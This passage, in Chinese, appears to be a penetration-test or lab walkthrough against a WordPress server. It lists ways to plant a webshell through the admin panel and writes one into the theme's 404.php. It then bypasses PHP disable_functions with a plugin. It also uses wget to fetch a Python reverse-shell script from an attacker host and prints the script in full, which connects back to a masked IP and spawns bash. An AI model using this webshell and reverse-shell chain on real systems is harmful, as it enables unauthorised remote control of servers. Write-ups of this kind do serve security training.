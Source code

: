 可以看到现在启用的主题是 `Twenty Twenty-One`

有以下三种思路，可以在 Wordpress 后台写入 webshell

- 主题更新包写入 webshell
- 插件包写入 webshell
- 安装 `File Manager` 插件，直接写入 webshell
- `theme-editor` 直接修改主题文件写 webshell
- `plugin-editor` 直接修改插件文件写 webshell

访问 `http://39.101.175.73/wp-admin/theme-editor.php` 直接修改主题文件写 webshell

往 `Twenty Twenty-One: 404 Template (404.php)` 主题文件写入 webshell

![img](img/image_20240726-142631.png)

然后使用蚁剑访问 `http://39.101.175.73/wp-content/themes/twentytwentyone/404.php`

![img](img/image_20240727-142708.png)

成功植入 webshell

但是尝试利用的时候，发现无法正常利用

![img](img/image_20240729-142920.png)

```plaintext
{"code":"ECONNRESET","errno":"ECONNRESET","syscall":"read"}
```

使用插件直接执行 `phpinfo` 查看环境信息，发现存在 `disable_functions`

```plaintext
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,
```

## 入口点 PHP  disable_functions Bypass

直接使用插件进行 disable_functions Bypass

这里选用的模式为 `PHP 7.0-8.0 disable_functions bypass [user_filter]`

![img](img/image_20240733-143347.png)

命令被成功执行了

尝试进行反弹 shell

```shell
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ wget 139.*.*.*:8008/reverse-python3.py
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ cat reverse-python3.py
import os,pty,socket
s=socket.socket()
s.connect(("139.*.*.*",9999))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("/bin/bash")
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ python3 --version
Python 3.8.10
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ python3 reverse-python3.py
```
